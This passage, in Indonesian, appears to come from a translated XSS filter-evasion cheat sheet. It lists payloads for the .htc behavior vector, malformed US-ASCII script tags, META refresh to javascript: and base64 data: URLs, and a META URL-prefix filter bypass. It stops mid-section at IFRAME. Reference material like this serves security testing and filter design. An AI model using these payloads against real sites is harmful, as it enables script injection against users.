### File htc Lokal

Ini sedikit berbeda dari dua vektor XSS terakhir karena menggunakan file .htc yang harus berada di server yang sama dengan vektor XSS. File contoh ini bekerja dengan menarik JavaScript dan menjalankannya sebagai bagian dari atribut style:

```html
<XSS STYLE="behavior: url(xss.htc);">
```

### Pengodean US-ASCII

Serangan ini menggunakan pengodean ASCII yang salah bentuk dengan 7 bit, bukan 8. Metode XSS ini dapat melewati banyak filter konten, tetapi hanya berfungsi jika host mentransmisikan dalam pengodean US-ASCII atau jika Anda mengatur pengodean sendiri. Ini lebih berguna terhadap penghindaran XSS firewall aplikasi web (WAF) daripada penghindaran filter sisi server. Apache Tomcat adalah satu-satunya server yang diketahui yang secara default masih mentransmisikan dalam penyandian US-ASCII.

```js
¼script¾alert(¢XSS¢)¼/script¾
```

### META

Hal aneh tentang meta refresh adalah ia tidak mengirim referrer di header - jadi ia dapat digunakan untuk jenis serangan tertentu di mana Anda perlu menyingkirkan URL rujukan:

```html
<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">
```

#### META menggunakan Data

Skema URL Direktif. Metode serangan ini bagus karena ia juga tidak memiliki apa pun yang terlihat yang memiliki kata SCRIPT atau direktif JavaScript di dalamnya, karena ia menggunakan penyandian base64. Silakan lihat [RFC 2397](https://datatracker.ietf.org/doc/html/rfc2397) untuk keterangan lebih lanjut.

```html
<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">
```

#### META dengan Parameter URL Tambahan

Jika situs web target mencoba melihat apakah URL berisi `<http://>;` di awal, Anda dapat menghindari aturan filter ini dengan teknik berikut:

```html
<META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=javascript:alert('XSS');">
```

(Dikirimkan oleh Moritz Naumann)

### IFRAME

Jika iFrame diizinkan, ada banyak masalah XSS lainnya juga:
